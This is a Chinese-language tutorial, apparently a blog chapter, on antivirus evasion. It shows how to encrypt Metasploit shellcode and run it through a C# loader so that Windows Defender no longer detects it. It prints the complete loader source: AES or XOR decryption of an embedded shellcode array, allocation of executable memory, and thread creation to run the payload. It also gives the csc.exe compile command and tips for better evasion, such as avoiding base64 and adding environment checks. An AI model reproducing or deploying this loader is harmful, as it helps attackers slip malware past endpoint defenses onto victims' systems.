

# 0x00 简介

这章主要讲下把shellcode加密然后解密运行，在前面几章讲过av一般都是杀的shellcode特征，msf的shellcode的加密后它就windows defender 就不认识它了。

其实每种语言都是一样的，这里用c# 因为它可以利用白名单执行,同时加密相对C/C++ 简单,但是可以看到它执行shell code代码量比C大多了。


# 0x01 加密shellcode

其实在GitHub上面很早就有大佬写了这些,还是那句话多搜索,多专研。

这里我直接用 `ShellcodeWrapper` (偷个懒精力有限达到效果就行)这款软件生成代码了,它的使用跟上章类似,只是转成CS,cpp,py文件需要自己编译一下

```
/*
Author: Arno0x0x, Twitter: @Arno0x0x

How to compile:
===============
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:encryptedShellcodeWrapper_aes.exe encryptedShellcodeWrapper_aes.cs

*/

using System;
using System.IO;
using System.Collections.Generic;
using System.Text;
using System.Threading.Tasks;
using System.Security.Cryptography;
using System.Runtime.InteropServices;

namespace RunShellCode
{
    static class Program
    {
        //==============================================================================
        // CRYPTO FUNCTIONS
        //==============================================================================
        private static T[] SubArray<T>(this T[] data, int index, int length)
        {
            T[] result = new T[length];
            Array.Copy(data, index, result, 0, length);
            return result;
        }

        private static byte[] xor(byte[] cipher, byte[] key)
        {
            byte[] decrypted = new byte[cipher.Length];

            for (int i = 0; i < cipher.Length; i++)
            {
                decrypted[i] = (byte)(cipher[i] ^ key[i % key.Length]);
            }

            return decrypted;
        }

        //--------------------------------------------------------------------------------------------------
        // Decrypts the given a plaintext message byte array with a given 128 bits key
        // Returns the unencrypted message
        //--------------------------------------------------------------------------------------------------
        private static byte[] aesDecrypt(byte[] cipher, byte[] key)
        {
            var IV = cipher.SubArray(0, 16);
            var encryptedMessage = cipher.SubArray(16, cipher.Length - 16);

            // Create an AesManaged object with the specified key and IV.
            using (AesManaged aes = new AesManaged())
            {
                aes.Padding = PaddingMode.PKCS7;
                aes.KeySize = 128;
                aes.Key = key;
                aes.IV = IV;

                using (MemoryStream ms = new MemoryStream())
                {
                    using (CryptoStream cs = new CryptoStream(ms, aes.CreateDecryptor(), CryptoStreamMode.Write))
                    {
                        cs.Write(encryptedMessage, 0, encryptedMessage.Length);
                    }

                    return ms.ToArray();
                }
            }
        }

        //==============================================================================
        // MAIN FUNCTION
        //==============================================================================
        static void Main()
        {
            byte[] encryptedShellcode = new byte[] { 0xe4, 0xbd, 0x2b, 0x77, 0xc2, 0x6a, 0xf7, 0xb5, 0x6a, 0x64, 0x3b, 0x9a, 0x8f, 0x45, 0xc1, 0xac, 0xb1, 0x9e, 0x4e, 0x47, 0x5b, 0x50, 0x31, 0x2c, 0xfd, 0x6d, 0xf2, 0x9d, 0xe5, 0xb8, 0xca, 0x68, 0x14, 0x00, 0x23, 0xd4, 0x73, 0x4a, 0x47, 0x83, 0x72, 0xca, 0x54, 0x5a, 0xb7, 0xb3, 0xa3, 0x72, 0xf0, 0x3a, 0x19, 0x1c, 0x0d, };
            string key = "Z3QRrVk9OEeXvAbK28zFyw==";
            string cipherType = "aes";


            byte[] shellcode = null;

            //--------------------------------------------------------------
            // Decrypt the shellcode
            if (cipherType == "xor")
            {
                shellcode = xor(encryptedShellcode, Encoding.ASCII.GetBytes(key));
            }
            else if (cipherType == "aes")
            {
                shellcode = aesDecrypt(encryptedShellcode, Convert.FromBase64String(key));
            }

            //--------------------------------------------------------------            
            // Copy decrypted shellcode to memory
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // Prepare data
            IntPtr pinfo = IntPtr.Zero;

            // Invoke the shellcode
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        // The usual Win32 API trio functions: VirtualAlloc, CreateThread, WaitForSingleObject
        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(
            UInt32 lpStartAddr,
            UInt32 size,
            UInt32 flAllocationType,
            UInt32 flProtect
        );

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId
        );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds
        );
    }
}


```


代码很简单 大家动动手就能写一个它支持xor aes加密,这种免杀效果比框架生成好太多了,不推荐使用base64加密，因为它现在被检测的概率很大，用密匙加密
判断环境运行不妨是种简单有效的方式

生成的代码我们可以通过.net 的编译器来编译执行

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:multibyteEncodeShellcode.exe multibyteEncodeShellcode.cs
```


用到的工具 https://github.com/Arno0x/ShellcodeWrapper

顺便看看windows defender的查杀效果




# 0x02 文末

大家还可以写其他加密方式,这类加载器，用起来就很顺手。

### 本文如有错误，请及时提醒，以免误导他人

